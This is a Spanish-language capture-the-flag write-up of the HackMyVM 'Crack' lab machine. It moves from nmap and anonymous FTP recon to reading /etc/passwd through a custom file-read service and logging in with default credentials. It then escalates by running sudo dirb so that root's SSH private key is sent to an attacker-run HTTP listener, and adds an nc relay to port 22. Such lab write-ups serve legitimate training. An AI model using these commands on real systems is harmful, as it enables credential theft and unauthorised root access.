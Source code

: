 ```yaml
---
layout: post
title: "Write Up Crack. "
subtitle: "eJPTv2 Track "
category: Blog
tags: [Easy,Genin,Linux,HMVM,Reverse-Shell,PHP,FTP,SUDO,Weak-Credentials,Reconnaissance,Protocols,eJPTv2]
image:
  path: /assets/img/crack/crack.png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### Ping Sweep


```bash
sudo arp-scan -I ens33 --localnet
```

![list](/assets/img/crack/1.png){:.lead width="800" height="100" loading="lazy"}


### Nmap


```bash
nmap --open -p- -Pn -n -T4 -vvv -n 198.168.1.41 -oN allports
```


![list](/assets/img/crack/2.png){:.lead width="800" height="100" loading="lazy"}



### Services and Versions


```bash
nmap -sVC -Pn -n -p21,4200,12359 198.168.1.41 -oN target
```

![list](/assets/img/crack/3.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Expltation


### FTP TCP-21


Como podemos conectarnos como el usuario **anonymous** sin credenciales porque losotros puerto parecen un poco extraños primero enpezamos, adentro del servicio hay una utilidad en python que tal parece ser un **crack.py** que esta dentro de la carpeta **/upload/**.



![list](/assets/img/crack/4.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Descargamos el **crack.py**.


En resumen, este código implementa un servidor que acepta conexiones entrantes y permite a un cliente solicitar la lectura de un archivo pero extre crack.py por lo que vemos se ejecuta en elpuerto 12359, si el archivo existe, se envían las líneas del archivo al cliente. Si el archivo no existe, se envía la respuesta "NO", pues  con esto en mete creamos un archivo llmado **passwd** y lo subimos a **FTP**.


![list](/assets/img/crack/5.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Subimos el **passwd**.


![list](/assets/img/crack/6.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con esto leemos el **/etc/passwd** del uasuario **cris** aparentemente.


![list](/assets/img/crack/7.png){:.lead width="800" height="100" loading="lazy"}


### HTTP TCP-4200


Con nmap, vimos que hay un puerto **4200** en el que se encuentra alojado un servidor web que proporciona una terminal **shell in a box**. Vamos a explorar esta terminal, y como es normal nesesitamos credenciales y solo tenemos el usuario cris y como ya sabemos debemosprobar contraseñas por defecto  asi que la clave es **cris** tambien.


![list](/assets/img/crack/8.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ya podemos  ver la la flag en su escritoriopero nos vamos a mandar una reverse shell para movernos mejor.


![list](/assets/img/crack/10.png){:.lead width="800" height="100" loading="lazy"}


***

## Escalation Privileges


Primero, ejecutamos el comando **id** en Linux para obtener información sobre la identificación del usuario actual y los grupos a los que pertenece, ademas ejecutaremos **uname -a** y **lsb_release -a** para obtener información del sistema, verificaremossi otro usurio tiene permisos sudores con **sudo -l**, además, buscamos binarios con permisos **SUID** y tareas **Cron** en busca de posibles puntos de entrada. 


Si no encontramos resultados significativos con las acciones anteriores, procedemos a subir los binarios **linpeas** y **pspy** .etc, al sistema. Estos binarios nos ayudarán a realizar un análisis de reconocimiento más exhaustivo, identificando posibles vulnerabilidades o actividades sospechosas en el sistema.


También realizamos un análisis manual del sistema, buscando configuraciones inseguras, archivos sensibles o cualquier otra anomalía que pueda indicar una posible vulnerabilidad o actividad maliciosa.


Sudo -l nos dice que cualquier usuario puede ejecutar el comando **/usr/bin/dirb** pero buscando no nos podemos aprovecahr de dirb para escalar privileguos sin proporcionar una contraseña pero no hay nada en internet sobre como escalar privileguios con eso asi que debemos buscar otra forma.


![list](/assets/img/crack/9.png){:.lead width="800" height="100" loading="lazy"}


La forma es que debemos ponernos a la escucha con un servidor con python y luego ejecutar lo siguiente:


```bash
sudo /usr/bin/dirb http://192.168.1.34 /root/.ssh/id_rsa
```

{:.note}
Esto nod dara la idrsa de root que debemos tratar de filtrar con `cat id_rsa | awk '{print $2}' FS="GET" | awk '{print $1}' FS=" HTTP" | sed 's/\//\'$'\n\/' | sed '/^\s*$/d' > root.id_rsa` para quedarnos con la **id_rsa** integra de root.


![list](/assets/img/crack/13.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/crack/15.png){:.lead width="800" height="100" loading="lazy"}



{:.note}
Le damos permisos 600 y nos conectamos por ssh a root internamente o podemos hacer `nc -nlktp 9999 -c "nc 127.0.0.1 22"` externamente y ya es cuestion de buscar la flag en su directorio, el de root.


***

```bash
🎉 Felicitaciones ya has comprometido Crack de Hack My VM 🎉
```
{:.centered}

***

Back to [Certification eJPTv2 ](2023-06-02-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}
